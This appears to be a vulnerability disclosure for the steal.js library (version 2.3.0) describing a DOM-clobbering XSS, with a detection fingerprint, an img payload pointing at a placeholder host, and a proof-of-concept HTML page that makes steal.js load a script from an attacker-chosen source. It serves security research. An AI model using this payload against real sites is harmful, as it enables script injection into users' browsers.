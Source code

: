 ## steal

### Meta

+ Library: steal
+ Version: 2.3.0
+ Fingerprint: `typeof window.steal !== 'undefined' && typeof window.steal.loader === 'object'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ Foundby: TheHulk


### Library

Built locally

https://github.com/stealjs/steal

### Vulnerable Code Snippet

too complicated.

## PoC

after running `npm install`

```html
<!doctype html>
<html>
  <body>
    <image name="currentScript" src="http://localhost:8000/"></image>
    <script src="./node_modules/steal/steal.js" main></script>
  </body>
</html>
```
